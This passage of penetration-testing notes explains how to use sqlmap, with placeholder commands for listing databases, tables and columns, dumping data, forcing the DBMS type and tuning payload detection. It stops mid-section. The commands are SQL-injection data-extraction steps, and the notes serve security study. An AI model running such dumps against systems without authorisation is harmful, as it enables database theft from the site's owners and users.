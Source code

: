 ### Extracting the Schema
After that you choose a database by using the -D switch and list its tables:
```
sqlmap -u <target> -D <database> --tables <other options>
```

List one or more tables and list their columns:
```
sqlmap -u <target> -D <database> -T <tables, comma separeted list> --columns <other options>
```

Finally, dump the columns you need:
```
sqlmap -u <target> -D <database> -T <tables> -C <columns list> --dump <other options>
```

### SQLMap Advanced Usage
- Not all web app and exploitation scenarios are the same. Because of that, SQLMap provides you with some useful command line switches that help fine tune the following:

```
The DBMS you are attacking
Injection point
Payload aggressiveness
Exploitation speed and load on the clients infrastructure
```

### Forcing the DBMS
SQLMap is able to detect the DBMS behind a web application automatically. If it fails, you can specify the DBMS by hand:
```
sqlmap --dbms=<DBMS> ...
```

The DBMS you can specify are:
```
MySQL
Oracle
PostgreSQL
Microsoft SQL Server
Microsoft Access
SQLite
Firebird
Sybase
SAP MaxDB
DB2
```

> specifying the DBMS also helps to shorten the detection phase and its detectability.
Beware that specifying the wrong DBMS means sending useless payloads to the target application.

### Fine Tuning the Payloads
- Web app sometime change their output in a way that SQLMap cannot figure it out. This makes blind exploitation impossible. To get around this, you can use the --string and --not-string command line switches:
